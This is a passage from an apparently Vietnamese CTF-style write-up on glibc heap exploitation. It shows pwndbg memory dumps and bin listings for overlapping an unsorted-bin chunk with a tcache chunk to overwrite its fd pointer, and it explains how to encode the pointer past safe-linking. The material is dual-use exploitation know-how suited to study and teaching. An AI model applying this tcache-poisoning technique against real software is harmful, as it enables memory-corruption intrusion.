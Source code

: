 ```cs
0x5558b5d9cb30  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb40  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb50  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb60  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb70  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb80  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cb90  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cba0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbb0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbc0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbd0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbe0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cbf0  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cc00  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cc10  0x0000000000000000      0x0000000000000000      ................
0x5558b5d9cc20  0x0000000000000220      0x0000000000000020       ....... .......
0x5558b5d9cc30  0x0000000000000a63      0x0000000000000000      c...............
0x5558b5d9cc40  0x0000000000000000      0x00000000000203c1      ................         <-- Top chunk
```

ta hãy cùng xem trong bins lúc này , nếu ta malloc lại 1 chunk để lấy chunk entry_tcache ra và tiếp tục free() chunk thứ 8 thì lúc này cả 2 sẽ nằm ở các bin khác nhau đúng chứ? , vì vậy nếu ta malloc 1 chunk ở ```unsorted_bin``` với 1 kích thước vừa đủ , ta hoàn toàn có thể overwrite được ```fd``` của chunk thứ 8 

```cs
pwndbg> bins
tcachebins
0x110 [  7]: 0x5558b5d9c900 —▸ 0x5558b5d9c7f0 —▸ 0x5558b5d9c6e0 —▸ 0x5558b5d9c5d0 —▸ 0x5558b5d9c4c0 —▸ 0x5558b5d9c3b0 —▸ 0x5558b5d9c2a0 ◂— 0
fastbins
empty
unsortedbin
all: 0x5558b5d9ca00 —▸ 0x7f6eb4305ce0 ◂— 0x5558b5d9ca00
smallbins
empty
largebins
empty
```
- ta thấy lúc này nếu ta yêu cầu malloc với 1 chunk 0x130 , unsorted sẽ cắt 1 phần ra và ta đã ovewrite thành công được fd trong tcache , chú ý là nó sử dụng ```safe-linking``` nên ta cần mã hóa nó bằng cách ```target ^ (heap_base >> 12)```
```cs
0x5558b5d9ca00  0x0000000000000000      0x0000000000000141      ........A.......
0x5558b5d9ca10  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca20  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca30  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca40  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca50  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca60  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca70  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca80  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9ca90  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9caa0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cab0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cac0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cad0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cae0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9caf0  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cb00  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0x5558b5d9cb10  0x6161616161616161      0x0000000000000111      aaaaaaaa........
0x5558b5d9cb20  0x00007f6be1bb3a1c      0x9966da748f80000a      .:..k.......t.f.         <-- tcachebins[0x110][0/7]
```